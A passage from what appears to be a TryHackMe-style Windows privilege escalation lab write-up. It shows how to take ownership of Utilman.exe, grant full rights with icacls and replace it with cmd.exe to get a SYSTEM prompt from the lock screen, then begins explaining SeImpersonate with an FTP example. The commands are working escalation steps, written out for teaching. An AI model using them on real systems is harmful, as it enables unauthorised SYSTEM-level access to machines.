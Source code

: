 SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:

Command Prompt
```
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
After this, we will replace utilman.exe with a copy of cmd.exe:

Command Prompt
```
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```
To trigger utilman, we will lock our screen from the start button:

![img](/assets/img/wpe16.png)

And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

![img](/assets/img/wpe17.png)

---
### SeImpersonate / SeAssignPrimaryToken
---

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user ftp. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:


![img](/assets/img/wpe18.png)

There are several reasons why using ftp's token is not the best idea: - For the files to be served correctly, they would need to be accessible to the ftp user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user ftp. This adds complexity as we must manually configure specific permissions for each served file/directory. - For the operating system, all files are accessed by user ftp, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. - If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the ftp user has access.

If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:

![img](/assets/img/wpe19.png)

```